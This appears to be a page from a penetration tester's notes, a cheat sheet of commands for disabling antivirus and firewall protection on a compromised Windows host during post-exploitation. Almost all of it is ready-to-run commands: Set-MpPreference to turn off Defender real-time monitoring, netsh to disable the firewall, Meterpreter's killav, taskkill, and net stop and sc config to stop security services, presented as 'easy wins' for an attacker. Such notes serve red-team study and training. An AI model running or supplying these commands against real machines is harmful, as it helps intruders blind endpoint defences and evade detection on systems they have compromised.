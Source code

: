 # Disable Antivirus

**Description:** Commands to disable antivirus to make post exploitation eaiser. Please note that these should not be considered OPSEC safe. 

## Disable real-time monitoring for Windows Defender

```Set-MpPreference -DisableRealtimeMonitoring $true```

## Disable Windows Firewall

```netsh firewall set opmode mode=disable```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```run killav```

## Manually Disable Antivirus

```Taskkill /F /IM avprocess.exe```

## Stop an Antivirus Service

```net stop “service name”```

## Disable a Windows Service

```sc config "service name" start= disabled```

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
